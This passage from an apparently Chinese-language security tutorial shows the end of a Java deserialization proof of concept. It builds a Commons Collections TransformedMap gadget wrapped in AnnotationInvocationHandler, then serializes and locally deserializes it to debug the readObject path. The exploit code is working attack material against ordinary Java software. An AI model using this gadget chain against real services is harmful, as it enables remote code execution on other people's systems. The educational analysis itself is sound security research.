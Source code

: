 ```java

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");
        
        Map outerMap = TransformedMap.decorate(innerMap,null,chain);
        
        // 通过反射机制实例化AnnotationInvocationHandler
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);
        Object ins = cons.newInstance(java.lang.annotation.Retention.class,outerMap);
        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(ins);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = (Object) ois.readObject();
    }
}
```
上面就是一个完整的poc了，不过，为了调试，我还在poc中本地模拟了反序列化的过程，这个过程在真实环境中应该是目标应用自动执行的。我在sun.reflect.annotation.AnnotationInvocationHandler的readObject方法处下了断点，一图胜千言，各个变量的值一目了然：

![](ser_example1/var.png)
